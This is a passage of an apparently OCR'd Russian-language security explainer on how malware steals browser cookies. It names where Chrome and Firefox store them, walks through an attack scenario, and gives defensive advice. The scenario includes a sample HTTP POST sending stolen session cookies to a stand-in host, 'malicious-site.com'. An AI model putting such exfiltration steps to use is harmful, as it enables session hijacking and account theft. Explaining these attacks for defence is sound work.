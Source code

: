 1. **Доступ к файлам браузера**:
   - Большинство браузеров хранят cookie в локальных файлах на устройстве пользователя. Например:
     - В Google Chrome cookie хранятся в зашифрованном виде в файле `Cookies` в профиле пользователя.
     - В Mozilla Firefox cookie хранятся в файле `cookies.sqlite`.
   - Вредоносное ПО может получить доступ к этим файлам и извлечь из них данные.

2. **Использование кейлоггеров**:
   - Кейлоггеры — это тип вредоносного ПО, который записывает нажатия клавиш. Они могут фиксировать данные, вводимые пользователем, включая учетные данные для входа, которые затем используются для получения cookie.

3. **Эксплуатация уязвимостей системы**:
   - Вредоносное ПО может использовать уязвимости операционной системы или браузера для обхода механизмов защиты и получения доступа к cookie.

4. **Передача украденных данных злоумышленнику**:
   - После извлечения cookie вредоносное ПО отправляет их на сервер злоумышленника, где они могут быть использованы для захвата сессии пользователя.

#### Пример сценария атаки

1. **Установка вредоносного ПО**:
   - Пользователь случайно загружает и устанавливает вредоносное ПО, замаскированное под легитимное приложение, например, через фишинговую ссылку или зараженный файл.

2. **Сканирование файлов cookie**:
   - Вредоносное ПО сканирует локальные файлы браузера, извлекает cookie и расшифровывает их, если они зашифрованы.

3. **Передача данных**:
   - Украденные cookie отправляются на сервер злоумышленника:
     ```
     POST /upload HTTP/1.1
     Host: malicious-site.com
     Cookie-Data: session_id=abc123; user_id=42
     ```

4. **Захват сессии**:
   - Злоумышленник использует украденные cookie для доступа к учетной записи пользователя.

#### Как защититься от кражи через вредоносное ПО?

1. **Использование антивирусного ПО**:
   - Установите надежное антивирусное программное обеспечение и регулярно обновляйте его для защиты от вредоносного ПО.

2. **Обновление программного обеспечения**:
   - Регулярно обновляйте операционную систему, браузеры и другие приложения, чтобы устранить уязвимости, которые могут быть использованы вредоносным ПО.

3. **Шифрование cookie**:
   - Браузеры уже используют шифрование для хранения cookie. Убедитесь, что вы используете современные версии браузеров, которые поддерживают эту функцию.

4. **Ограничение времени жизни cookie**:
   - Установите короткий срок действия для сессионных cookie, чтобы минимизировать их ценность для злоумышленников:
     ```
     Set-Cookie: session_id=abc123; Max-Age=3600; HttpOnly; Secure
     ```
